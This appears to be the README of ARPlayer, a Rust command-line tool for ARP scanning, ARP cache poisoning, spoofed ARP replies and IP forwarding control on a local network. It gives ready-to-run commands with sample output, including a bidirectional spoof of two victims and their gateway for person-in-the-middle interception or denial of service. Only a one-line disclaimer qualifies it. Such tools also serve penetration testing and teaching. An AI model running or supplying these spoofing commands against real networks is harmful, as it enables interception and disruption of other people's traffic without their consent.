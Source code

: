 # ARPlayer

[![Crates.io](https://img.shields.io/crates/v/arplayer)](https://crates.io/crates/arplayer)
[![Language Rust](https://img.shields.io/badge/Language-Rust-blue)](https://www.rust-lang.org/)


You can use ARPlayer to perform several attacks/techniques that involve ARP.

For using ARPlayer you will need `root` privileges, since it is necessary to create raw sockets.

## Installation

To install:
```
$ cargo install arplayer
```

## Scan

You can perform a use ARP requests to scan the local network. You can use the `scan` command to perform an ARP scan on the network.

```bash
$ sudo arplayer scan -I eth2 -w 10
192.168.100.1 52:54:00:5b:49:5d
192.168.100.2 52:54:00:0b:75:57
192.168.100.7 52:54:00:a4:8c:f2
192.168.100.5 52:54:00:76:87:bb
...
```

## Spoof

You can poison the ARP cache table of network computers by sending continuous ARP responses that that indicates that the MAC of other computers is related with your IP (or some IP that you choose). That way you can perform an PitM or DoS attack, depending if you redirect the traffic or not.

You can perform an ARP spoofing/poisoning attack with the `spoof` command. You need to specify the victim(s) IP address and the gateway address. By default, it only will poison the cache of the victim , but you can use the `-b/--bidirectional` flag to also poison the gateway cache.

Moreover, to perform a PitM attack you will need to enable forwarding of the IP packets. You can do it with the `-F/--forward` flag.

The following example shows a PitM for 2 victims and the gateway:

```bash
$ arplayer spoof -I eth2 -b -F 192.168.100.7,192.168.100.5 192.168.100.2 -v
Spoofing - telling 192.168.100.7 (52:54:00:a4:8c:f2) that 192.168.100.2 is 52:54:00:88:80:0c (192.168.100.44) every 1.0 seconds (until Ctrl-C)
Spoofing - telling 192.168.100.5 (52:54:00:76:87:bb) that 192.168.100.2 is 52:54:00:88:80:0c (192.168.100.44) every 1.0 seconds (until Ctrl-C)
INFO - 192.168.100.2-52:54:00:88:80:0c -> 192.168.100.7-52:54:00:a4:8c:f2
INFO - 192.168.100.7-52:54:00:88:80:0c -> 192.168.100.2-52:54:00:0b:75:57
INFO - 192.168.100.2-52:54:00:88:80:0c -> 192.168.100.5-52:54:00:76:87:bb
INFO - 192.168.100.5-52:54:00:88:80:0c -> 192.168.100.2-52:54:00:0b:75:57
INFO - 192.168.100.2-52:54:00:88:80:0c -> 192.168.100.7-52:54:00:a4:8c:f2
INFO - 192.168.100.7-52:54:00:88:80:0c -> 192.168.100.2-52:54:00:0b:75:57
INFO - 192.168.100.2-52:54:00:88:80:0c -> 192.168.100.5-52:54:00:76:87:bb
INFO - 192.168.100.5-52:54:00:88:80:0c -> 192.168.100.2-52:54:00:0b:75:57
^CReadjusting 192.168.100.2 for 192.168.100.7 (52:54:00:a4:8c:f2)
Readjusting 192.168.100.2 for 192.168.100.5 (52:54:00:76:87:bb)
INFO - 192.168.100.2-52:54:00:0b:75:57 -> 192.168.100.7-52:54:00:a4:8c:f2
INFO - 192.168.100.7-52:54:00:a4:8c:f2 -> 192.168.100.2-52:54:00:0b:75:57
INFO - 192.168.100.2-52:54:00:0b:75:57 -> 192.168.100.5-52:54:00:76:87:bb
INFO - 192.168.100.5-52:54:00:76:87:bb -> 192.168.100.2-52:54:00:0b:75:57
...     
```

## Reply

With the `reply` command you can set a ARP "listener" that will replay to any ARP request with your MAC (or a custom one). You can also use parameters to filter the ARP requests you want to reply based on the source MAC and IP or the requested IP.

```bash
$ sudo arplayer reply -I eth0  --match-dst-ips 192.168.122.1 -v
INFO - Reply request for 192.168.122.1 from 192.168.122.83 (52:54:00:15:c9:6b)
INFO - Reply request for 192.168.122.1 from 192.168.122.138 (52:54:00:d9:d2:ca)
...
```

## Forward

You can use the `forward` command to view the IP forwarding state and enable/disable it.

```bash
$ sudo arplayer forward
0
$ sudo arplayer forward -e
$ sudo arplayer forward -e -v
INFO - net.ipv4.ip_forward = 1
$ sudo arplayer forward
1
```

# Disclaimer

Please, don't use this tool for bad things. I won't assume any responsibility for your actions with this tool.
